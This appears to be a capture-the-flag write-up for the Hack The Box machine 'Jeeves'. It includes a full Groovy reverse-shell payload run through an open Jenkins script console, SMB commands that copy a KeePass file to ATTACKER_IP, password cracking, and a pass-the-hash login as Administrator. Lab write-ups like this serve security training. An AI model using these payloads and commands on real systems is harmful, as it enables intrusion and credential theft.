This box is rated medium difficulty on HTB. It involves us grabbing a reverse shell by using Jenkins' script console, decrypting a KeePass database file to grab Administrator privileges, and using alternate data streams to view different file contents.

## Scanning & Enumeration
I kick things off with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -sCV 10.129.228.112 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-25 16:42 CST
Nmap scan report for 10.129.228.112
Host is up (0.054s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb2-time: 
|   date: 2026-02-26T03:43:06
|_  start_date: 2026-02-26T03:40:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.83 seconds
```

There are three ports open:
- An IIS web server on port 80
- RPC on port 135
- SMB on port 445

I'll start by enumerating SMB as it's a bit quicker, but I fire up Gobuster to search for subdirectories/subdomains in the background. Using Netexec to test for Guest authentication over ports 135 and 445 shows that they're disabled so we'll definitely need credentials to use RPC or SMB.



Heading over to the landing page shows a search bar for which looks for web content, images, etc. My scans haven't found anything else, so I'm going to focus on this page for now.



Attempting to make a valid query to this function throws a strange error back at us. It seems like the application is using our input as part of a statement to an internal MSSQL database.



Interestingly, this error is just a static photo that gets displayed whenever and error procs. Capturing a request shows that there's really no functionality here whatsoever. 

## Shell via Jenkins Script Console
At this point I couldn't figure out what to exploit which meant I probably missed something in my scans. Rerunning Nmap to find all ports shows another web server running on port 50000.



I repeat directory enumeration and discover an endpoint named `/askjeeves` which upon going to, shows an instance of Jenkins running. I find that the only user registered is the admin which we'd usually want access to.



The strange thing here is that we're allowed to use the site as an anonymous user which also includes the Manage Jenkins features. If you're unfamiliar with Jenkins, it's a an open-source automation server used to manage CCI/CD pipelines. In this case, we have access to the script console that allows us to execute commands as the web server. A quick google search reveals this [Github repository](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) containing a reverse shell payload.

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After changing the host string to point towards my attacking machine, I setup a Netcat listener and execute the script. The server connects back to us and we land on the box as Kohsuke.



Attempting to move up from the `.jenkins` directory fails so it seems we have limited privileges. The system still lets us navigate to our home directory where we can grab the user flag and look around for anything useful to escalate privileges.

## Privilege Escalation
While listing privileges that Kohsuke has access to, I find that our account has the capability to use `SeImpersonatePrivilege`. That means we can perform some kind of attack utilizing using one of the Potatos or PrintSpoofer, but I've done that plenty of times and the intended way is cooler in my opinion. For more information regarding that route to escalate privileges, I recommend checking out [this Hacktricks article](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html#seimpersonateprivilege).

### Cracking KeePass file
Looking around our user directory reveals a `CEH.kdbx` file (contains encrypted KeePass credentials). 



As we still don't have credentials or a proper shell yet, I use SMB to transfer this to my attacking machine in hopes that we can crack the password on it. 

```
#On local machine, host an Impacket SMB sever
impacket-smbserver share pwd

#Create new directory named pwd
mkdir pwd

#Mount directory to our SMB server from remote machine
net use s: \\ATTACKER_IP\share

#On remote machine, transfer file to our server
copy CEH.kdbx s:
```

Now we should have the file on our machine. I use a tool called [keepass2john](https://github.com/ivanmrsulja/keepass2john) which converts our .kdbx file into a crackable format so that we can brute force the password with JohnTheRipper.



Give it a minute and John recovers a valid password to access this database. In order to open the file, I download the keepassxc tool using the following command (on my Kali Linux instance):

```
sudo apt-get install keepassxc
```

Dumping the database yields a credentials for users Hackerman123, Administrator,  Michael123, and Bob on various sites. The only one I'm interested in is the password for an anonymous account under the Backup stuff folder.



Viewing that field shows a long string that seems like an NTLM hash, attempting to crack it doesn't work but maybe it can be used to authenticate in a pass-the-hash attack to grant us a shell as Administrator. I'll use the `winexe` utility from the PassTheHash toolkit in order to grab a shell as RDP and WinRM are disabled.

```
pth-winexe -U Administrator%[RECOVERED_HASH] //MACHINE_IP cmd.exe
```



We're not quite done yet, the root flag is under the `C:\Users\Administrator\Desktop` folder but doesn't output what we're looking for. I spent some time enumerating the filesystem thinking that it was just hidden somewhere else and found nothing. I decide to transfer hm.txt to my attacking machine for further inspection as the flag may be hidden within the file itself.

### Alternate Data Streams
After transporting it via the same SMB server from earlier, I find that two files actually get sent. Displaying the second one grants us the final flag which completes this box.



I'll break down what just happened if you don't already know. Windows uses things called Alternate Data Streams (ADS) which allows files to contain more than one stream of data. It's primary purpose is to store information such as file metadata and `Zone.Identifier` values that showcase where the file originated from (ie. the internet, intranet, or local machine).

In our case it was used to hide the real flag inside of the text document as `hm.txt:root.txt`. In order to find this from our Windows shell, we can use the dir command with `/r` to specify recursive search. However, a typical type command won't work to display the stream so we must pipe the contents into the more command.

```
more < hm.txt:root.txt:$DATA
```



Another way is to utilize the streams executable, which is apart of the Microsoft Sysinternals suite, with the `/s` flag for scanning subdirectories recursively. 

That's all y'all, I really liked this box because it used some lesser-known tricks that led to a full compromise. I hope this was helpful to anyone following along or stuck and happy hacking!
